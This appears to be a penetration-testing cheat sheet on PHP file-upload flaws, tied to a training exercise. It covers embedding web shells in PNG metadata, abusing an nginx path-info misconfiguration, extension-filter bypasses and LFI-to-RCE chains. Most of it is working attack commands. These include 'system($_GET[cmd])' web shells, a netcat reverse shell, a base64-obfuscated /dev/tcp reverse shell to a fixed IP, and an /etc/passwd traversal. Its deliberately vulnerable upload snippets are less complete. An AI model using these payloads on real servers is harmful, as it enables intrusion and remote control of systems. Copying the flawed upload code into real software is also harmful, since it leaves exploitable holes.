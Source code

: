 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
$ strings 1.png  #get all strings from image file
$ exiftool 1.png #get meta information in files
```
Install `exiftool`:
```
$ sudo apt-get install libimage-exiftool-perl -yqq
```
Create test image:
```
$ convert -size 1x1 xc:transparent image.jpg
```

Place the PHP code in a meta-data comment:
```
$ echo '<?php system($_GET["cmd"]);?>' > 1.php
$ exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
$ curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure file-upload implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. Nginx misconfiguration for PHP apps

Docs: `https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/#passing-uncontrolled-requests-to-php`

Original upload (contains embedded PHP code `<?php echo 123;?>` in comment meta-data section):
```
$ http -b "http://$target/admin/uploads/123.png" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 3c 3f 70 68 70 20 65  |tComment.<?php e|
00000090  63 68 6f 20 31 32 33 3b  3f 3e 80 4c 58 03 00 00  |cho 123;?>.LX...|
000000a0  00 0a 49 44 41 54 08 d7  63 60 00 00 00 02 00 01  |..IDAT..c`......|
000000b0  e2 21 bc 33 00 00 00 00  49 45 4e 44 ae 42 60 82  |.!.3....IEND.B`.|
000000c0
```

Abusing the misconfiguration (comment section contains the output of the PHP code `Comment.123`):
```
$ http -b "http://$target/admin/uploads/123.png/.php" | hexdump -C
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 01 00 00 00 01  01 00 00 00 00 37 6e f9  |.............7n.|
00000020  24 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |$....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |`..:....p..Q<...|
00000060  02 74 52 4e 53 00 00 76  93 cd 38 00 00 00 02 62  |.tRNS..v..8....b|
00000070  4b 47 44 00 01 dd 8a 13  a4 00 00 00 19 74 45 58  |KGD..........tEX|
00000080  74 43 6f 6d 6d 65 6e 74  00 31 32 33 80 4c 58 03  |tComment.123.LX.|
00000090  00 00 00 0a 49 44 41 54  08 d7 63 60 00 00 00 02  |....IDAT..c`....|
000000a0  00 01 e2 21 bc 33 00 00  00 00 49 45 4e 44 ae 42  |...!.3....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```

Reverse shell with embedded PHP inside image:
```
$ exiftool -all='' image.png
$ exiftool -comment='<?=system($_GET["cmd"]);?>' image.png # upload this on server
$ ncat -nlvp 9999 # your local listener
$ cmd='nc $your_ip 9999 -e /bin/bash'
$ http http://$target/admin/uploads/123.png/.php?cmd="$cmd"
```

#### 1.5. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```

##### Example 3:

Change the original file type in the request from `Content-Type: text/php` to `Content-Type: image/png`:
```
POST /upload/ HTTP/1.1
[FORMATTING CUT]
Content-Disposition: form-data; name="uploaded"; filename="f.php"
Content-Type: image/png

<?php echo 1234;
```

##### Example 4 - LFI + file upload = RCE:

Embedded PHP code in image (note the `/*` comment after `system()` call):
```
$ convert -size 1x1 xc:transparent xxx.jpg
$ exiftool -comment='<?php system("whoami");/*' xxx.png
```
This will comment out the remaining parts of the image when used with file inclusion in PHP (`include` / `require`).

Once uploaded the image will be placed in the `/uploads` directory.
```
$ http http://$target/uploads/xxx.png | strings
IHDR
gAMA
 cHRM
tRNS
bKGD
!tEXtComment
<?php system("whoami");/*
IDAT
IEND
```

Local file inclusion (LFI) bug can be used as:
```
$ http http://$target/lol?page=file.php\n/../../../../../../../../../etc/passwd
$ http http://$target/lol?page=file.php\n/../../../uploads/xxx.png
```
This uses directory traversal to `uploads` folder to include the malicious PNG (which contains PHP code in the comment section).

Response will contain binary data from PNG and the result of `system` PHP code executed remotely:
```
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8

�PNG....EXtCommentwww-data
```
The `whoami` OS command returns `www-data`.

Reverse shell payload:
```
$ c=`echo -n '/bin/bash -i >& /dev/tcp/192.168.209.146/9999 0>&1' | base64`
$ x="system(\"bash -c '{echo,$c}|{base64,-d}|{bash,-i}'\");/*"
$ exiftool -comment="<?php $x" xxx.png
```
